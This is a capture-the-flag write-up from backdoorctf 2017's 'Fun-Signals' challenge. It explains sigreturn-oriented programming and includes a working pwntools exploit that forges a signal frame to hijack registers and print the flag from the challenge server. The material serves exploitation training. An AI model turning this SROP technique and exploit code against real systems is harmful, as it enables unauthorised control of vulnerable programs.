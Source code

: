 ```yaml
---
layout: post
title: backdoorctf 2017 - Fun-Signals Writeup
categories: ctf_backdoorctf17
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```




This binary has a very small portion of code.

Analize it in IDA:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/funsignals-1.png">

The first syscall is a read (rax = 0) of 1024 bytes in the stack.

The second is rt_sigreturn.

For a l337 h4xx0r sigreturn means SROP. For me it means [Wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).

I learnt that we can control the program flow like with rop using sigreturn and the associated structure on the stack.

This structure contains the context of the signal handler.

So writing this structure on the stack (with read) we have the complete control of all registers.

A good choice is to prepare the registers for a write to the stdout of the flag.

The syscall gadget under `int 3` is a perfect target for rip.

Wait, how is composed a signal frame? I don't know, but pwnlib does.

```python
from pwn import *

context.arch = "amd64"

frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = 0x10000023 #flag string address
frame.rdx = 50 #read size
frame.rsp = 0xABADCAFE
frame.rip = 0x10000015 #syscall gadget

#p = process("./player_bin")
p = remote("163.172.176.29", 9034)
p.send(str(frame))

print p.recvall()
```

